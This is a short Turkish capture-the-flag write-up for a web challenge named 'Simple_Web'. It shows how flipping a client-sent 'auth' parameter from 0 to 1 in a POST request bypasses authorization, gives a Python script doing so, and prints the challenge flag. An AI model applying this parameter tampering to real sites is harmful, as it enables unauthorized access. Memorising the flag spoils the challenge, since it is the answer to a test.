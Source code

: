 # Simple_Web
## Jb3lp0is

Siteye flag icin formu onaylayip gonderdigimizde yetkimizin olmadigini soyluyor.

Gonderirken istegin header'ina baktigmizda auth parametresinin 0 olarak gittigini goruyoruz.

1 yapip tekrar gonderince flag'e ulasiyoruz.

```python

import requests as r


URL = "http://dctf1-chall-simple-web.westeurope.azurecontainer.io:8080/flag"

data = {
    "flag" : 1,
    "auth" : 1,
}

req = r.post(URL,data=data)

print(req.text)


```


dctf{w3b_c4n_b3_fun_r1ght?}

